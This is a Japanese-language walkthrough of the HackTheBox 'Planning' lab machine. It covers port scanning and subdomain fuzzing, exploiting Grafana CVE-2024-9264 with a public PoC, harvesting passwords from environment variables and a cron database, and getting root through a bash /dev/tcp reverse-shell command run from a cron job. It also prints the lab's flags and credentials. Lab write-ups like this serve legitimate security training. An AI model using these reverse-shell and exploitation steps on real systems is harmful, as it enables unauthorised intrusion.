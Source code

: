 # Planning WriteUps 

- **[HackTheBox_Planning](https://app.hackthebox.com/machines/Planning)**

- admin / passwords
```
admin / 0D5oT70Fq13EvB5r
```

- WorkSpeace
```
mkdir Planning && cd Planning
```

## 調査
まず、targetであるip address(```10.10.11.68```)に```nmap```もしくは```rustscan```でもいいので
開いているサービスを調べる
### 付け加え
こうするといちいちipを入力しなくてもいい
```
export ip="10.10.11.68"
# 使用するときは $ipと使う
```

### Nmap Options
- nmap cmd 
```
nmap $ip -sS -sV -sC -oN target_port.log -T4  
```

- scan結果
```
# Nmap 7.95 scan initiated Tue Jul  1 14:53:40 2025 as: /usr/lib/nmap/nmap -sS -sV -sC -oN target_port.log -T4 10.10.11.68
Nmap scan report for 10.10.11.68
Host is up (0.35s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  1 14:54:05 2025 -- 1 IP address (1 host up) scanned in 24.95 seconds
```

これらから、22,80が開いていることがわかる。
また、```_http-title: Did not follow redirect to http://planning.htb/```から```/etc/hosts```に
```10.10.11.68   planning.htb```と指定する必要がある。

### http://planning.htbにて
contactなどの送信フォームなどでスクリプトを発火させることができるかと検証をしたが
特に見当たらなかったので```ffuf```でsubdomainを探すことにした

今回使用したwordlilst
- **[Seclists](https://github.com/danielmiessler/SecLists)**

gitでclone
```
git clone https://github.com/danielmiessler/SecLists.git
```
ちなみに今後様々な問題を解くうえでこういったwordlistsは```/usr/share```の下に設けるといいだろう

僕の場合、```Planning``` wordspaceに
```
cat /usr/share/Seclists/Discoverty/DNS/subdomains-* >> subdomain.txt
```
とすべてのsubdomainを```subdomain.txt```でまとめて使用した。

### ffuf Options
```
ffuf -w subdomain.txt -u http://planning.htb -c -H "Host :FUZZ.planning.htb" -o ffuf.log
```
これにより、```grafana```というsubdomainが見つかる。
もちろん、```grafana.planning.htb```を```/etc/hosts```に追加しなければならないので
```10.10.11.68   planning.htb grafana.planning.htb```となる。

そこから、```http://grafana.planning.htb```にアクセスすると
```/login```ページに飛ばされる。
そこから有力な情報がないか調べた際に
Version情報があり、```Grafana v11.0.0 (83b9528bce)```と記載されてたため
そこからExploitを探索し```CVE-2024-9264```が見つかり、
Githubから**[Poc](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)**を使用し

先に```netcat```で待ち受けし、
```
nc -lvnp 1234
```

その後、以下のoptionで```poc.py```スクリプトを実行
```
# 10.10.XX.XXは自分のip
python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.XX.XX --reverse-port 1234 
```

###　Environment
無事に入れたので
まず、このマシンがコンテナどうか```env```で調べます。
```
GF_PATHS_LOGS=/var/log/grafana
_=dockerenv
```
この情報から```Docker```のコンテナ内というのがわかりました。
また、
```
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```
これらの情報から```enzo``` Userと```RioTecRANDEntANT!``` Passwordを取得できた。

## User Flag

```
ssh -p 22 enzo@10.10.11.68
```
から```RioTecRANDEntANT!```とpasswordを入力し、
user.txtからFlagを取得
```
86c057f17190dee41a5c5295959d573d
```
### サービスチェック
他にもこのマシン上でどのサービスが開いているか調べるために
```
ss -tul
```
で調べた結果
```
127.0.0.1:8000
```
が開いており、それを自分のマシンへと転送するために
```
ssh -p22 enzo@10.10.11.68 -L 8000:127.0.0.1:8000
```
とし、
自分のマシンから```http://127.0.0.1:8000```にアクセス
すると、loginホップアップが出たので
一旦、```10.10.11.68```のsshに戻って
そこでlogin情報で必要な情報を```linpeas.sh```で探してみる。
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
で自分のマシンにダウンロードします。
targetマシンである```10.10.11.68```に持っていきたいので
自分のマシンで以下のcmdを実行
```
python3 -m http.server 8080
```

これでHTTP Serverが開くので
targetマシン上で
```
wget http://10.10.XX.XX:8080/linpeas.sh
```
で持ってきて
```
chmod +x linpeas.sh
```
実行権限を与えて```./linpeas.sh```でscanします。

SQL File Pathから```Found /var/lib/command-not-found/commands.db```が出力され
```
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```
から、
```
root /  P4ssw0rdS0pRi0T3c
```
を発見！

試しにlogin ホップアップに入力
無事、loginできました！！

その後、新規で
```
bash -c 'exec bash -i >& /dev/tcp/10.10.16.3/1234 0>&1'
```
を保存し
先に```netcat```で待ち受けし
```
nc -lvnp 1234 
```

そして、```run now```で実装します。

そうするとshellがとれて```id```から
```
uid=0(root) gid=0(root) groups=0(root)
```
わかり、```/root/root.txt```

## Root Flag
```
0ebacefa1bfc4ad4eca56fa64ba4de02
```

## Completed!!

- 参考の資料(URL)
<br>
https://medium.com/@ypopova3/planning-hackthebox-fd3d5fcb8fc7
<br>
https://qiita.com/notthei/items/c257ef1004345b51a969
